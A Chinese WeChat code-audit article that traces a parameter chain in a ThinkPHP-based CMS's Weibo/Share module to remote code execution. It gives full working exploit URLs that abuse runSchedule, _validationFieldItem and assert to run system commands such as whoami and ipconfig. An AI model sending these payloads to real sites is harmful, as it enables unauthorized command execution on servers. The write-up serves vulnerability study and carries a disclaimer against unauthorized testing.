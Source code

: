 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/mMRkMHP7DKDqJvW4Vtj_4Q)

前言
==

**申明****：本次测试只作为学习用处，请勿未授权进行渗透测试，切勿用于其它用途！  
**

**本文来自 N1c****E 师傅的投稿，在此表示由衷的感谢。**  

作者寄语：由于本周也是在补天公众号看到了 (moonv) 这位师傅的代码审计文章 [https://mp.weixin.qq.com/s/5_HxHEFrCxOCagGOQPOCDw](https://mp.weixin.qq.com/s?__biz=MzI2NzY5MDI3NQ==&mid=2247490365&idx=1&sn=469a6346f5af4d8e1e22f21145f1a809&scene=21#wechat_redirect)  

想着复现下无奈只有前部分的 poc 而已，剩下的只能自己补上了 ，可能会存在点理解误差。  

（师傅们轻点喷，本人新手文章，耗时一天）

正文
==

**审计工具：**

PhpStudy（2016 版本）、Phpstorm（2020.3.2 版本）

**审计步骤：**

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGbVXMrFI4QQXichM2jBWX7IfCWq6n0VO0u5gNnw3t8pBycCg08P81hseP8Ba3Csbv4VlrI5ULrEvsg/640?wx_fmt=png)

由于是 thinkphp 框架写的，是（应用 / 控制器 / 方法名）进行访问的，

访问这控制器是 ?s=Weibo/Share/shareBox&query=

往下走就是到 17 行②处，这里将 query 解码的值传到③sharabox.html 页面

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGbVXMrFI4QQXichM2jBWX7IfVTSEQiasxsnGvcNfT7B73no4fIaMuSbRvFeN5IDrY6a4ia8OXx1c7ZbA/640?wx_fmt=png)

```
然后query的值就赋到'param'的参数上面调用Weibo/Share/fetchShare方法。

```

```
而{:W('Weibo/Share/fetchShare',array('param'=>$parse_array))}

```

```
的W方法在ThinkPHP/Common/functions.php的1174行。这里可以参考补天师傅发的文。

```

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGbVXMrFI4QQXichM2jBWX7IfYTIBBCnKTL4xx6LEbwrWPFboAj36rauUkK1LkbUSZgC3P1eAibupJFQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGbVXMrFI4QQXichM2jBWX7IfqJHqtNvJjZFCYWUiaddvYapAsMroN2Utib8FMb5rYcZQ1a2H0efUAdeQ/640?wx_fmt=png)

```
R(方法是远程调用控制器的操作方法 URL 参数格式 [资源://][模块/]控制器/操作

```

```
{:W(‘Weibo（模块、调用地址）/Share（方法）/fetchShare（操作）’,array(‘param’=>$parse_array))}

```

然后我们继续往回看，也就是 sharebox.html 远程调用 Weibo/Share/fetchShare 方法这里。

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGbVXMrFI4QQXichM2jBWX7IftuYRVRhh2Xj2kC1b7RWr7JQWYhMFpDtJ4icQSghFVePXs6uU8icAHICw/640?wx_fmt=png)

```
query的值就赋到'param'的参数上面调用Weibo/Share/fetchShare方法。

```

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGbVXMrFI4QQXichM2jBWX7IfeClNjScx0fffGFcDDXlvTiaxkDaHOdkLNpedXsYa1da1LdkqB6MTG4w/640?wx_fmt=png)

```
而且D方法只会寻找模块（model）类

```

```
比如你的参数是query=app=Common%26Model=Schedule%26method=runSchedule%26id

```

```
就会搜索Common/Model/ScheduleModel的类

```

```
由于前面的assginFetch方法传入D方法的时候带着‘Weibo/Share’参数

```

```
所以这里只会搜索weibo模块类Weibo/Model/ShareModel

```

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGbVXMrFI4QQXichM2jBWX7IfuJGEy3ogzGjKZRKiaN8lCktbIJCk9WvQhP8zsFIT9XkjKfY3KR4ba2g/640?wx_fmt=png)

```
而fetchShare方法里又将值传给assginFetch方法又又传给了getinfo方法。继续往下跟进

```

上面是调用了 D 方法也就是模块类 Weibo/Model/ShareModel

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGbVXMrFI4QQXichM2jBWX7IfIRo3QqMren4hNFx0sOKCW6mVHxGEicwUg4eudwfx26GAKIPUibLDGK2g/640?wx_fmt=png)

```
这里的getinfo方法会将传过来的参数进行判断，如果app、Model、method

```

```
参数都不为空的话就进入D进行实例化（实例化：个人感觉是调用方法的意思）如：query=app=应用名（如：Common、Weibo、Admin）%26Model=模块名%26method=方法名，这里moonv师傅已经给出了前部分的

```

poc：query=app=Common%26Model=Schedule%26method=runSchedule%26id

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGbVXMrFI4QQXichM2jBWX7IfiaSkY8qKL6fDHG6Ja1unJ6O2Ummzyy6Ekb9Kia8dMwkVePyUD2uNHIicA/640?wx_fmt=png)

这里的调用 D 方法又成了执行 Common/Model/ScheduleModel/runSchedule 方法

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGbVXMrFI4QQXichM2jBWX7If83HrVb8woia6Gp8hVjpbfk42Jtl7e9mTLunrQeYa6Vk9f03RqvTdk6w/640?wx_fmt=png)  
![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGbVXMrFI4QQXichM2jBWX7IfyKmczapDBk8RBxxkPo1nb9DCExDIQ1JLN1aWUzBy9iaCkBibUHaWQlLQ/640?wx_fmt=png)

```
这里是利用了moonv师傅找出的runSchedule方法然后继续调用D方法进行实例化模块。

```

```
而且这里的参数是需要三个参数，status、method、args，这里有点小绕脑。

```

```
而method是需要‘->’进行分割的，根据前部分的poc再加上现在的参数提示可以组成：

```

```
这里会将method下标的值带入D方法来实例化该模块(Model)类，然后将②带入①的模块类中。

```

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGbVXMrFI4QQXichM2jBWX7If82YCKCa2b1eDYScQ3zLwzgc825IibvqRqKGWoKL5ZuqvOFOzWSnsgWw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGbVXMrFI4QQXichM2jBWX7IfE04Ehd5orJich5FJbibz6iaveCP2iayqBbKHEWlwCkJ2olHBribXWDiboTzw/640?wx_fmt=png)

```
继续往下的话就到了_validationFieldItem方法，这里我也不是很清楚怎么进来的，应该的通过Schedulemodel方法进行执行_validationFieldItem吧。

```

```
（PS：有懂的师傅能否讲解一下）

```

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGbVXMrFI4QQXichM2jBWX7IfrmeZiaGVB9aZ6hSM3F6JsibLrkbE1V0nH1zx0ibia7YbxRziaqgic6x3zBeA/640?wx_fmt=png)

1、要 val 下标 4 的值是 function

2、要 val 下标 6 的值是数组

3、args 会和 data 下标是 val 下标 0 的值

4、要 val 下标 1 的值是 assert

```
师傅们可以百度参考下call_user_func_array代码执行。

```

```
解释第3点：如果val[0]=cmd ,那么data就是data[cmd]

```

```
这下可以构造出poc：

```

```
/index.php?s=weibo/Share/shareBox&query=app=Common%26model=Schedule%26method=runS

chedule%26id[status]=1%26id[method]=Schedule->_validationFieldItem%26id[4]=functi

on%26[6][]=%26id[0]=cmd%26id[1]=assert%26id[args]=cmd=system(whoami)

```

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGbVXMrFI4QQXichM2jBWX7IfzVr0OJmek5ebYQbBMpy4ib51ibK5SUdXCnia9yCeU57Zb8ol4sNpcp2qw/640?wx_fmt=png)

**影响版本：**

目前版本版本：Uploads_Download_2020-05-14_5ebca066a3fef

**实现步骤：**

http://127.0.0.1/index.php?s=weibo/Share/shareBox&query=app=Common%26model=Schedule%26method=runSchedule%26id[status]=1%26id[method]=Schedule-%3E_validationFieldItem%26id[4]=function%26[6][]=%26id[0]=cmd%26id[1]=assert%26id[args]=cmd=system(ipconfig)

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGbVXMrFI4QQXichM2jBWX7IfKic8P1t1exFdZ55xUg0H3ibIfdhVVRia7WbOzjXB88f1owpwltk8Xu9lg/640?wx_fmt=png)

**如果对你有帮助的话  
那就长按二维码，关注我们吧！**  

![](https://mmbiz.qpic.cn/mmbiz_png/Qx4WrVJtMVKBxb9neP6JKNK0OicjoME4RvV4HnTL7ky0RhCNB0jrJ66pBDHlSpSBIeBOqCrOTaWZ2GNWv466WNg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_jpg/EWF7rQrfibGYIzeAryXG89shFicuMUhR5eYdoSEffib7WmrGvGmSPpdvYfpGIA7YGKFMoF1IrXutHXuD8tBBbAYJg/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_png/wKOZZiacmHTc9LIKRXddrzz6MosLdiaH4EQNQgzsrSXHObdAia8yeIlLz6MbK9FxNDr44G7FNb2DBufqkjpwiczAibA/640?wx_fmt=png)

**![](https://mmbiz.qpic.cn/mmbiz_gif/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fK0c7kH8Aa77gpMcYib3IVwvicSKgwrRupZFeUBUExiaYwOvagt09602icg/640?wx_fmt=gif)**  [经验分享 | 渗透笔记之 Bypass WAF](http://mp.weixin.qq.com/s?__biz=Mzg5NjU3NzE3OQ==&mid=2247486210&idx=1&sn=5c0f6409e51c3c0cfb6bde43f2406409&chksm=c07fb0f6f70839e0e29f4ea9c8655d4ce7690c2a147aeeb74f2827aece58e3746f3f7c4ee562&scene=21#wechat_redirect)

![](https://mmbiz.qpic.cn/mmbiz_gif/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fK0c7kH8Aa77gpMcYib3IVwvicSKgwrRupZFeUBUExiaYwOvagt09602icg/640?wx_fmt=gif)  [什么是 HTTP 和 HTTPS](http://mp.weixin.qq.com/s?__biz=Mzg5NjU3NzE3OQ==&mid=2247486492&idx=3&sn=0a975b99a0351a95eef41d37813f7e5d&chksm=c07fb7e8f7083efe8054f864b5b25541fa3bf19ab311700f29254d03e45a4357069ee07c8802&scene=21#wechat_redirect)  

![](https://mmbiz.qpic.cn/mmbiz_gif/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fK0c7kH8Aa77gpMcYib3IVwvicSKgwrRupZFeUBUExiaYwOvagt09602icg/640?wx_fmt=gif)  [实战 |  BYPASS 安全狗 - 我也很 “异或”](http://mp.weixin.qq.com/s?__biz=Mzg5NjU3NzE3OQ==&mid=2247486492&idx=1&sn=fbd4ca8ed69ba6cb3adbc6ac8561d825&chksm=c07fb7e8f7083efef437eb3d685cc5bd6ac489629c613b5f2ce9ced8a7f8fcd335b6f91821a8&scene=21#wechat_redirect)

右下角求赞求好看，喵~